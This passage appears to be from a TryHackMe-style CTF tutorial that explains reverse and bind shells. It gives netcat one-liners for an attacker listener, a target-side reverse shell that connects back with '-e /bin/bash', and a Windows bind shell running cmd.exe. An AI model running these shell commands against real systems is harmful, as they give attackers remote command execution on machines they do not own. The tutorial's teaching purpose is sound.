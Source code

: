 As a general rule, reverse shells are easier to execute and debug, however,
we will cover both examples below.
Don't worry too much about the syntax here:
we will be looking at it in upcoming tasks.
Instead notice the difference between reverse and bind shells in the following
simulations.

#### Reverse Shell example

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF
challenges like those of TryHackMe.

Take a look at the following image.
On the left we have a reverse shell listener -- this is what receives the connection.
On the right is a simulation of sending a reverse shell.
In reality, this is more likely to be done through code injection on a remote
website or something along those lines.
Picture the image on the left as being your own computer,
and the image on the right as being the target.

On the attacking machine:

`sudo nc -lvnp 443`

On the target:

`nc <LOCAL-IP> <PORT> -e /bin/bash`

Notice that after running the command on the right,
the listener receives a connection. When the whoami command is run,
we see that we are executing commands as the target user.
The important thing here is that we are listening on our own attacking machine,
and sending a connection from the target.
Bind Shell example:

Bind shells are less common, but still very useful.

Once again, take a look at the following image.
Again, on the left we have the attacker's computer,
on the right we have a simulated target.
Just to shake things up a little, we'll use a Windows target this time.
First, we start a listener on the target -- this time we're also telling it to
execute cmd.exe. Then, with the listener up and running, we connect from our
own machine to the newly opened port.

On the target:

`nc -lvnp <port> -e "cmd.exe"`

On the attacking machine:

`nc MACHINE_IP <port>`

As you can see, this once again gives us code execution on the remote machine.
Note that this is not specific to Windows.
